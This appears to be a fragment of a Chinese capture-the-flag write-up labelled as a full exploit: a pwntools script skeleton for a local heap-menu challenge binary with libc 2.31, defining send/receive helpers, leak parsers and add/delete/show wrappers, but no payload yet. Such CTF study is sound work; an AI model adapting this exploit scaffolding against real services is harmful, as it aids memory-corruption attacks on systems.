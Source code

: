 完整 exp：

```bash
import os
import sys
import time
from pwn import *
from ctypes import *

context.os = 'linux'
context.log_level = "debug"

s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']

x64_32 = 1

if x64_32:
    context.arch = 'amd64'
else:
    context.arch = 'i386'

p=process('./pwn')
elf = ELF('./pwn')
libc=ELF('./libc-2.31.so')


add_idx = 1
delete_idx = 2
show_idx = 3
edit_idx = 4

def dbg():
    gdb.attach(p)
    pause()

def choice(cho):
    sla('>> ',cho)

def add(idx,size,content):
    choice(add_idx)
    sla('How much?\n',size)
    sla('Which?\n',idx)
    sla('Content:\n',content)

def delete(idx):
    choice(delete_idx)
    sla('Which one?\n',idx)

def show(idx):
    choice(show_idx)
    sla('Which one?\n',idx)

```